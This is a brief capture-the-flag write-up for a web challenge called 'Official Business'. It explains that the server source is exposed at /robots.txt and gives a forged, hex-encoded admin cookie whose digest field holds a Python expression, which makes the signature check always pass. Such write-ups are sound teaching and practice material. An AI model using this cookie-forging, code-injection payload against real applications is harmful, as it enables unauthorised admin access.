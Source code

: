 # Official Business
Going to `/robots.txt` reveals the server source code, along with some authentication checks.

We didn't really do this the intended way.

Set the auth cookie to
```
auth=7b2275736572223a202261646d696e222c202270617373776f7264223a202270617373222c202261646d696e223a20747275652c2022646967657374223a2022686173686c69622e736861353132287365637265745f6b6579202b206279746573286a736f6e2e64756d707328636f6f6b69652c20736f72745f6b6579733d54727565292c205c2261736369695c2229292e6865786469676573742829227d
```

which is the encoded form of
```
{'user': 'admin', 'password': 'pass', 'admin': True, 'digest': 'hashlib.sha512(secret_key + bytes(json.dumps(cookie, sort_keys=True), "ascii")).hexdigest()'}
```

This makes the SHA512 comparison always true, allowing you to log in as the admin.